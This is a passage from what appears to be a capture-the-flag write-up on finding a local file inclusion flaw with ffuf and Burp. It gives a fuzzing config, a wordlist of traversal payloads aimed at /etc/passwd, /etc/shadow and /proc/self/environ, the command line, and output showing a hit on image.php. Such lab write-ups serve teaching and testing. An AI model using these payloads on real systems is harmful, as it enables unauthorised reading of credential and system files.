 ```
    stopon403 = false
    stoponall = false
    stoponerrors = false
    threads = 10

[output]
    debuglog = "debug.log"
    outputfile = "output.json"
    outputformat = "json"
    outputcreateemptyfile = false

[matcher]
    status = "all"

[filter]
    size = "0"
```

Note that I set Burp as proxy `http://127.0.0.1:8080`, so I can see the requests and responses later in Burp's history. Make sure Burp is actually running.

[Seclists](https://github.com/danielmiessler/SecLists) has some wordlists for fuzzing. I used the following for the parameter key:

* `/usr/share/seclists/Discovery/Web-Content/api/objects.txt`

I also made a small LFI wordlist myself `lfi_linux_small.txt` for the parameter value:

```text
/etc/passwd
/etc/shadow
/etc/crontab
/etc/bashrc
/etc/groups
/etc/hosts
/proc/self/environ
../../../../etc/shadow
../../../../etc/crontab
../../../../etc/bashrc
../../../../etc/groups
../../../../etc/hosts
../../../../proc/self/environ
```

Finally the terminal command looks like this then:

```bash
$ ffuf -config ./config.ffuf -w /usr/share/seclists/Discovery/Web-Content/api/objects.txt:FUZZ -w ./lfi_linux_small.txt:FU2Z

#...
[Status: 200, Size: 25, Words: 3, Lines: 1]
| URL | http://10.10.11.135/image.php?img=/etc/passwd
    * FU2Z: /etc/passwd
    * FUZZ: img

[Status: 200, Size: 25, Words: 3, Lines: 1]
| URL | http://10.10.11.135/image.php?img=/etc/shadow
    * FUZZ: img
    * FU2Z: /etc/shadow
#...
```
